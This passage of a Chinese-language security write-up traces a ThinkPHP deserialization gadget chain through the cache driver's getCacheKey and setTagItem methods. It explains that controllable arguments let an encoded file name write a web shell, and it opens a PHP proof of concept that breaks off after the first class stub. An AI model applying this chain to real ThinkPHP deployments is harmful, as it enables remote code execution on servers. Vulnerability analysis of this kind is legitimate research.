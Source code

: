             }
        }

此处\$filename可控，跟进getCacheKey

    protected function getCacheKey($name, $auto = false)
    {
        $name = md5($name);
        if ($this->options['cache_subdir']) {
            // 使用子目录
            $name = substr($name, 0, 2) . DS . substr($name, 2);
        }
        if ($this->options['prefix']) {
            $name = $this->options['prefix'] . DS . $name;
        }
        $filename = $this->options['path'] . $name . '.php';
        $dir      = dirname($filename);

        if ($auto && !is_dir($dir)) {
            mkdir($dir, 0755, true);
        }
        return $filename;
    }

回来继续看\$data，从传入的\$value获取，但是在之前writeln处已经传入了true，而且不可控，只能继续往下看，可以看到当成功写入文件时，会调用setTagItem方法，跟进

    protected function setTagItem($name)
    {
        if ($this->tag) {
            $key       = 'tag_' . md5($this->tag);
            $this->tag = null;
            if ($this->has($key)) {
                $value   = explode(',', $this->get($key));
                $value[] = $name;
                $value   = implode(',', array_unique($value));
            } else {
                $value = $name;
            }
            $this->set($key, $value, 0);
        }
    }

又调用了一次set，且此处两个参数都是可控的，所以可以在文件名处搞事情，通过编码然后将文件名写入shell中

### poc

    <?php
    namespace think\process\pipes;
    use think\model\Pivot;
    class Pipes{

    }

    class Windows extends Pipes{
        private $files = [];
